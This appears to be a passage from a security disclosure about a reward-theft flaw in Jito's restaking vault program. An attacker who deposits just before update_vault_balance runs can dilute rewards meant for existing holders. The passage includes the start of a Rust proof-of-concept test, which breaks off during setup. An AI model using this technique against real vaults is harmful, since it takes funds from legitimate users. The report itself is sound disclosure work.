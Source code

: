 ## Impact Details

The vulnerability allows attackers to steal rewards meant for existing VRT holders by depositing tokens just before the update\_vault\_balance function is called, diluting the rewards for honest participants. This leads to economic loss for legitimate users.

## References

https://github.com/jito-foundation/restaking/blob/master/vault\_program/src/update\_vault\_balance.rs#L44 https://github.com/jito-foundation/restaking/blob/master/vault\_program/src/update\_vault\_balance.rs#L47 https://github.com/jito-foundation/restaking/blob/master/vault\_program/src/update\_vault\_balance.rs#L60

## Proof of Concept

## Proof of Concept

* Within integration\_tests/tests/vault folder, create a file named "whitehat.rs"
* Be sure to include the whitehat.rs test file in integration\_tests/tests/vault/mod.rs
* Paste the following into the whitehat.rs file:

```rust
#[cfg(test)]
mod tests {
    use jito_vault_core::{
        config::Config,
        delegation_state::DelegationState,
        vault_update_state_tracker::VaultUpdateStateTracker,
        vault_operator_delegation::VaultOperatorDelegation,
    };
    use spl_associated_token_account::get_associated_token_address;
    use jito_vault_sdk::error::VaultError;
    use solana_sdk::{ msg, signature::{ Keypair, Signer }, pubkey::Pubkey };

    use crate::fixtures::{
        fixture::{ ConfiguredVault, TestBuilder },
        vault_client::{ assert_vault_error, VaultStakerWithdrawalTicketRoot },
    };
    use jito_vault_core::vault::BurnSummary;
    use jito_vault_sdk::instruction::VaultAdminRole;

    #[tokio::test]
    async fn test_steal_rewards_by_depositing_before_update_vault_balance() {
        //setup
        let num_operators = 1;
        let slasher_amounts = vec![];
        let deposit_fee_bps = 0;
        let withdrawal_fee_bps = 0;
        let reward_fee_bps = 0;
        let reward_amount = 1000;
        let MINT_AMOUNT = 1000;

        let mut fixture = TestBuilder::new().await;
        let ConfiguredVault {
            mut vault_program_client,
            restaking_program_client: _,
            vault_config_admin: _,
            vault_root,
            restaking_config_admin: _,
            operator_roots,
        } = fixture
            .setup_vault_with_ncn_and_operators(
```